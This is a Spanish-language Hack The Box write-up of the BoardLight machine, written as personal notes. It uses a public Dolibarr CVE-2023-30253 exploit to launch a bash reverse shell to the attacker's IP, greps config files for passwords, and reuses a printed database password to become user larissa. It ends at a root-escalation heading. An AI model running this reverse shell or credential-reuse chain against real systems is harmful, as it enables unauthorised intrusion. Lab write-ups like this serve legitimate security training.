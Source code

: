 Vamos a descargarnos el siguiente repositorio con [[git clone]] usando el comando ``git clone https://github.com/Rubikcuv5/cve-2023-30253`` y nos vamos a enviar una [[Reverse shell]] asi que vamos a estar en escucha con [[nc -nlvp 443]]

```
python3 CVE-2023-30253.py --url http://crm.board.htb -u admin -p admin -c "bash -c 'bash -i >& /dev/tcp/10.10.16.15/443 0>&1'"
```

![[BoardLigth8.png]]

![[BoardLigth9.png]]
Ya estamos adentro como el usuario *www-data*

------
# [[Tratamiento de la TTY]]

---------
# Escalada de privilegios al usuario larrisa buscando [[Posibles archivos con contraseñas]]

Vamos al home y vemos que existe el usuario *larissa*
![[BoardLigth10.png]]

Usamos [[grep]] para ver si encontrabamos alguna contraseña ``grep -riE ".*pass|pass|pass.*"``
![[BoardLigth11.png]]
Vemos que el archivo conf.php tiene una posible contraseña. asi que  vamos a ver el archivo y obtenemos

![[BoardLigth12.png]]

```
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```
dolibarrowner:serverfun2$2023!!
Las credenciales estas no servian para logearnos en ningun lado. Asi que probe el usuario *larrisa* y la contraseña *serverfun2$2023!!*


![[BoardLigth13.png]]
Funciono y escalamos privilegios

----
# [[Tratamiento de la TTY]]

-------
# Escalada de privilegios al usuario root con archivos [[SUID]] y [[CVE-2022-37706]]
